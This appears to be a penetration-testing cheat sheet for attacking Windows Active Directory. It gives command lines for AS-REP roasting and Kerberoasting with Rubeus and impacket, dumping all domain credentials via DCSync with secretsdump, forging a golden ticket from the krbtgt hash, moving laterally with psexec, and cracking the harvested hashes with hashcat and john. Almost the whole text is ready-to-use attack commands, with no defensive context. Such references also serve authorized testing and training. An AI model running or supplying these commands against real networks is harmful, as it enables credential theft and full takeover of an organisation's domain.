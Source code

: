 ```powershell
.\Rubeus.exe asreproast /outfile:hash.txt
.\Rubeus.exe kerberoast /outfile:hash.txt
```

### ASREP and kerberoast from remote
```bash
# Kerberoasting
GetUserSPNs.py -dc-ip DC_IP -request FQDN/USER:PW
# ASREP roast, pick the format as hashcat or john
GetNPUsers.py DOMAIN_NAME/DOMAIN_USERNAME:PASSWORD -request -format [hashcat|john] -outputfile FILE_NAME
```

### DC sync hashes dump
If you find out someone has a DC sync right through bloodhound
or you obtained Domain Administrator access. Run a DC sync to get all
stored domain user creds.
```bash
secretsdump.py FQDN/USER:PW@DC_IP # may add -just-dc and -just-dc-ntlm according to the need
```

### Get access with ticket
After getting the hashes, if most hashes are unusable and the krbtgt one is available.
You can try generating a golden ticket with its NTLM hash. But will need to enumerate for extra info.
```powershell
Get-ADDomain DOMAIN_NAME # This to get the domain sid
```
Then perform the ticket attack with enumerated info
```bash
ticketer.py -nthash KRBTGT_NTLM_HASH -domain-sid DOMAIN_SID -domain FQDN DOMAIN_USER
```
After getting the ticket, export the TGT for impacket tool
```bash
export KRB5CCNAME=TGT_FILENAME
psexec.py  DOMAIN_NAME/DOMAIN_USER@TARGET_HOST -k -no-pass # Not necessary to be psexec, can use smbexec or any other similar tools.
```

### Cracking harvested hashes
Mscache v2 hashes cracking:

Need to parse hashes into such format:
```
$DCC2$10240#username#hash
```
Then crack with
```bash
#Mscache V2
hashcat -m 2100
#Kerberoast
hashcat -m 13100
#ASREP roast
hashcat -m 18200
#NTLM
hashcat -m 1000
#responder hash
hashcat -m 5600
```
#### Encrypted file hash cracking
Common files like zip, 7z, rar, keepass, sshkey
```
zip2john > zip.hash
7z2john > 7z.hash
rar2john > rar.hash
```